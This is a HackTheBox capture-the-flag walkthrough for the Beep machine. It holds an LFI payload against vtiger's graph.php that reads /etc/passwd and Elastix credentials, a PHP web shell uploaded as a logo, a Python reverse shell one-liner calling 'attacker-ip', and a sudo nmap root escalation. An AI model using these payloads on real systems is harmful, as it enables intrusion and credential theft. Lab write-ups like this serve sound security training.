




Beep is a medium-difficulty machine on HackTheBox, offering a variety of challenges that test your skills in enumeration, vulnerability exploitation, and privilege escalation. This walkthrough will guide you through the process of compromising the Beep machine, from initial reconnaissance to gaining root access.

## Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-03 08:13 EST
Nmap scan report for 10.10.10.7
Host is up (0.62s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: RESP-CODES USER UIDL LOGIN-DELAY(0) APOP IMPLEMENTATION(Cyrus POP3 server v2) EXPIRE(NEVER) AUTH-RESP-CODE PIPELINING STLS TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/https?
|_ssl-date: 2020-12-03T14:18:21+00:00; +1h01m04s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 1h01m03s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 377.37 seconds
```

**Key Services Identified:**

- **HTTP (80):** Elastix login page.
- **HTTP (10000):** Webmin interface.
- **MySQL (3306):** Restricted to localhost.

### Web Enumeration

Visiting the HTTP service on port 80 revealed an Elastix login page. Attempts to log in with default credentials (`elastix:elastix`, `admin:admin`, `admin:password`, `admin:elastix`) were unsuccessful. SQL injection attempts also proved futile.



**Directory Brute-Forcing**:

Using `ffuf`, we discovered a directory named `vtigercrm`, which hosted another login page.



Webmin was hosted on port 10000, presenting another potential attack vector.


### Local File Inclusion

Researching Elastix vulnerabilities revealed a Local File Inclusion (LFI) vulnerability. The following payload was used to exploit this:

so we get lfi by using ` /vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action`




This payload successfully retrieved the `/etc/passwd` file, confirming the LFI vulnerability.


### Extracting Credentials

Elastix stores its credentials in the `/etc/elastix.conf` file. Using the LFI vulnerability, we accessed this file and extracted the following credentials:


## Gaining shell

### Attempting to Exploit Credentials

Attempts to use the extracted credentials to access MySQL and SSH were unsuccessful due to IP restrictions. However, the credentials worked on the Elastix and vtiger CMS login pages.

### Uploading a Reverse Shell

In the vtiger CMS, we found a file upload vulnerability in the "Company Details" section under "Admin Settings." We crafted a PHP reverse shell payload:

```php
<?php system($_GET["cmd"]); ?>
```

After uploading the payload as a logo image, we located the uploaded file path by inspecting the page source.


### Executing Commands and Gaining a Shell

Navigating to the uploaded file allowed us to execute commands. Using a Python reverse shell, we gained access to the machine:


```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker-ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



## Getting root

### Enumerating Users

On the machine, we found two users: `fenis` and `spamfilter`. The `user.txt` flag was located in the home directory of `fenis`.

### Exploiting Sudo Privileges

The `spamfilter` user had sudo privileges to run several programs. We leveraged Nmap to escalate privileges to root:

```bash
sudo nmap --interactive
nmap> !sh
```

**Root Shell Obtained:**


